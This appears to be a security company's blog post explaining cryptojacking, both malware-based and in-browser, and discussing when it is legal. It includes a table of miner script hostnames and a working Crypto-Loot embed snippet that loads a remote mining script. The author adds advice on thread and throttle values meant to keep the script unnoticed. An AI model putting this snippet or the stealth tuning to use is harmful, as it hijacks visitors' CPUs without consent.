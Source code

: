 ```yaml
---
slug: cryptojacking-malware/
title: Cryptojacking, a Real Malware?
date: 2019-08-25
category: opinions
subtitle: Understanding cryptojacking "malware"
tags: social-engineering, hacking, malware
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330840/blog/cryptojacking-malware/cover_qypfzt.webp
alt: Photo by Alberto Duo on Unsplash
description: Here we'll explain the different types of cryptojacking and give an example. We'll also discuss its legal use and the advantages of implementing it in an app.
keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, JavaScript, Ethical Hacking, Pentesting
author: Diego Alvarez
writer: diegoaa
name: Diego Alvarez
about1: Systems and Telecommunications Engineer student
about2: '"Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope'
source: https://unsplash.com/photos/e4rcg33x4fA
---
```


Before we begin, we need a brief definition of blockchain. It is simply
a unique, consensual, and distributed registry on the network that
allows storage of information that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts, intellectual property
management, and cryptocurrencies, the last being its most common use.

In the field of cryptocurrencies, a blockchain stores all transactions
made with a cryptocurrency. The security and integrity of these systems
are maintained by nodes, which are computers connected to the blockchain
network competing with each other to verify transactions. This process
is known as mining and is carried out by providing processing power with
either `CPUs`, `GPUs`, or by using specialized hardware for this type of
task.

Usually nodes associate with each other and create groups that working
together help to validate a group of transactions. When these
transactions are validated, each node is rewarded with the proportion of
the power contributed.

## Concept

When mining cryptocurrency, take into account that in these processes,
the percentage of `GPU` or `CPU` usage increases, as well as the use of
electricity.

Now, what if I tell you that others can perform such processing power
for you, and even better, without having to divide the profits between
them? It sounds pretty good, and it’s simple to implement with two
variations:

- The first is carried out by infecting a victim’s machine with
  malware. Usually, this is done by social engineering. We can make a
  victim, without their knowledge, download malware that executes the
  mining process in the background.

- The other variation is in-browser mining. This executes code in the
  user’s browser when the user is accessing a particular site. In this
  case, `JavaScript` is used to execute such scripts.

## Discussion

On one hand, some people prefer that their `CPU` be used `100%` of the
time, without having to deal with ads and pop-ups on every new page.

On the other hand, antivirus companies periodically update their
definition of malware and include web miners as a potential threat to a
user’s system.

According to reports by COINTELEGRAPH[<sup>\[1\]</sup>](#r1%20), Monero
(the currency most affected by excessive mining) plans to reinforce its
algorithm by requiring miners to dedicate over two gigabytes of `RAM` to
the process, which could make cryptojacking attempts harder to hide.

How the scripts are used defines whether the usage is legal or not.
There are cases where attackers inject code into websites through `XSS`,
generating profits, but do not have the consent of the website
administrator.

As noted above, with social engineering techniques, the attacker could
make victims download malicious programs to perform mining without
consent.

## Tools

There are many tools that can be used to perform in-browser mining.
[Coinhive](https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/)
had been one of the most used, but since March 2019 it has stopped
working.

However, there are other tools that are quite similar. Table 1 below, a
scan made with [publicWWW](https://publicwww.com/), shows the
approximate number of websites using these tools.

<div class="tc">

**Table 1. Quantity of websites per library[<sup>\[2\]</sup>](#2)**

</div>

| Website                    | Results        | Query Parameter                                                                                                                                                                 |
| -------------------------- | -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| <p> Coinhive          </p> | <p> 30611 </p> | <p> "coinhive.min.js"                                                                                                                                                      </p> |
| <p> JSEcoin           </p> | <p> 1131  </p> | <p> "load.jsecoin.com"                                                                                                                                                     </p> |
| <p> Crypto-Loot       </p> | <p> 695   </p> | <p> "CryptoLoot.Anonymous"                                                                                                                                                 </p> |
| <p> Minr              </p> | <p> 324   </p> | <p> "minr.pw", "st.kjli.fi", "abc.pema.cl", "metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs", "hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid" </p> |
| <p> CoinImp           </p> | <p> 317   </p> | <p> "www.coinimp.com/scripts/min.js"                                                                                                                                       </p> |
| <p> ProjectPoi (PPoi) </p> | <p> 116   </p> | <p> "projectpoi.min"                                                                                                                                                       </p> |
| <p> AFMiner           </p> | <p> 46    </p> | <p> "afminer.com/code/miner.php"                                                                                                                                           </p> |
| <p> Papoto            </p> | <p> 42    </p> | <p> "papoto.com/lib/papoto.js"                                                                                                                                             </p> |

In the following example, a test is shown using [Crypto
Loot](http://Crypto-Loot), a library that is replacing the previous
Coinhive. It is very easy to implement in any application by inserting
the following code.

**In-Browser mining script.**

``` JavaScript
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
```

When a user visits the application, the processing level quickly
increases. The recommended thread value to make the script unnoticed is
between 2-4. And the throttle that defines the maximum `CPU` usage is at
0.2 (80%), the full speed being 0.0, and the least recommended.

<div class="imgblock">

![CPU Usage](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330839/blog/cryptojacking-malware/cpu_wkmpwo.webp)

<div class="title">

Figure 1. CPU Usage while visiting a website with In-Browser mining script.

</div>

Collected earnings and processing power can be seen on the
[dashboard](https://crypto-loot.org/dashboard/) of the person who
inserted the script.

## Conclusion

The use of services such as [Crypto Loot](http://Crypto-Loot) can be
legal. They are considered malware when used anonymously in user’s
systems. It is our responsibility to inform users about what is
happening and provide statistics to users on mined power.

In order for these mining methods to be legitimate and therefore, legal,
users must receive a notification about the execution of these scripts,
as well as the option to disable them and stop mining.

So far, there are few websites where the user is not actually informed
of the use of these scripts. Here is where antivirus companies disagree.
Some antivirus companies believe excessive `CPU` usage can cause
intentional damage, while others believe there is no intention to harm
an infected machine’s files; they just make the machine work a little
slower.

Without a doubt, no one wants their machine to work slower, but with
proper configuration of the scripts, you can achieve a website that
generates profits without having to show annoying ads to visitors and
without exceeding `CPU` usage.

## References

1. COINTELEGRAPH. [Monero Developers Consider Adopting New
    Proof-of-Work Algorithm in
    October.](https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october)

2. S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018). [A
    first look at browser-based
    cryptojacking](https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561).
    *2018 IEEE European Symposium on Security and Privacy Workshops
    (EuroS\&PW)*, 63.
